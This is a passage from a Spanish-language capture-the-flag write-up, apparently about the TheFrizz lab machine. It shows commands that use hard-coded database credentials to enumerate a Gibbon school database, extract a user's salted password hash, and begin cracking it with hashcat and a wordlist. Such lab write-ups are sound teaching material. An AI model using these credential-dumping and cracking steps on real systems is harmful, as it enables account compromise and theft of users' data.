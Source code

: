 En las comillas simples, sólo hace falta el comando que quieras ejecutar; podemos iniciar enumerando las tablas:

```js
PS C:\xampp\mysql\bin> .\mysql.exe -uMrGibbonsDB -p'MisterGibbs!Parrot!?1' gibbon -e 'show tables';
Tables_in_gibbon
gibbonaction
gibbonactivity
gibbonactivityattendance
gibbonactivityslot
gibbonactivitystaff
gibbonactivitystudent
gibbonactivitytype
gibbonadmissionsaccount
gibbonadmissionsapplication
gibbonalarm
gibbonalarmconfirm
gibbonalertlevel
gibbonapplicationform
<SNIP>
```

Como notarás, son un montón de tablas, lo que podemos hacer es buscar en tablas con nombres tentadores como lo es `gibbonperson`; 

Si hacemos un describe veremos que a parte de ser un montón de columnas, también hay unas que nos pueden interesar mucho:

![UTMP]({{ "/images/TheFrizz/describe.png" | relative_url }})

Entonces, hacemos la consulta para que nos muestre sólo esos campos:

```js
PS C:\xampp\mysql\bin> .\mysql.exe -uMrGibbonsDB -p'MisterGibbs!Parrot!?1' gibbon -e 'SELECT username, passwordstrong, passwordstrongsalt from gibbonperson';
username        passwordstrong  passwordstrongsalt
f.frizzle       067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03        /aACFhikmNopqrRTVz2489
```

Ahora, las podemos crackear con hashcat copiándo el hash y el salt en un archivo, dada la extensión del password, hay una fuerte probabilidad de que sea sha256 por lo que tendremos que ajustar hashcat conforme a ello. Para hacer el archivo, sólo tienes que poner la salt y el password separado por dos puntos `:` ya que `hashcat` detectará el formato `pass:salt` sea cual sea el modo que escojamos.

```
067f746faca44f170c6cd9d7c4bdac6bc342c608687733f80ff784242b0b0c03:/aACFhikmNopqrRTVz2489
```

Y hacemos que hashcat haga su recomendación (en la nueva versión de hashcat, si no seleccionamos un modo, tratará de detectar cuál es).

```bash
❯ hashcat hashes.dump /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6) starting in autodetect mode

OpenCL API (OpenCL 3.0 PoCL 3.1+debian  Linux, None+Asserts, RELOC, SPIR, LLVM 15.0.6, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
==================================================================================================================================================
* Device #1: pthread-haswell-AMD Ryzen 7 4700U with Radeon Graphics, 2599/5263 MB (1024 MB allocatable), 8MCU

The following 12 hash-modes match the structure of your input hash:

      # | Name                                                       | Category
  ======+============================================================+======================================
```